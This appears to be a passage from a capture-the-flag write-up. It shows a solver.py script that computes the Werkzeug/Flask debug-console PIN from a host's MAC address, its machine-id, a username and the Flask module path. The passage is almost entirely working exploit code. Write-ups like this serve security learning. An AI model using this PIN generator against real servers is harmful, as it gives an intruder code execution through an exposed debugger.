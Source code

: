 ```


mac_address = str(get_mac_adderess())
appended =get_machine_id()

#print(type(mac_address))  

print("MAC Address:", mac_address)
print("Appended Value:", appended.replace(" ", ""))


probably_public_bits = [
    'Alex',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]


private_bits = [
    mac_address,  # str(uuid.getnode()),  /sys/class/net/ens33/address
    appended  # get_machine_id(), /etc/machine-id
]


# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)

```
Using this solver.py, we can generate the PIN as illustrated in the image below:

